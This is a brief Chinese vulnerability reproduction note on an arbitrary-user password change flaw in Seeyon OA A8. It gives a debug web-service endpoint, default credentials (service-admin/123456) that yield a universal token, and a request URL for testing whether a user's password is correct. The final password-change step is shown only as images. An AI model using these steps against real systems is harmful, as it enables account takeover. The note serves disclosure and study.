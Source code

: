 ```yaml
---
title: "致远OA A8 任意用户密码修改漏洞"
id: zhfly3353
---
```


# 致远OA A8 任意用户密码修改漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A8

## 三、复现过程

```
http://www.0-sec.org/seeyon/services/authorityService?wsdl 
```

通过调试接口的默认用户 userName:service-admin password:123456 获取万能Token之后可以修改任意用户密码。

![image](../img/3c4cb507dc2d209da3b457e3bf29e721.png)

访问

```
http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun 
```

返回false 说明zw密码不正确

![image](../img/618a9932312f5e6da14e430733ebfb59.png)

修改密码

![image](../img/0516b27f27178254367fe70199a03582.png)

![image](../img/c0da305643844565a5022f5f8286c5ee.png)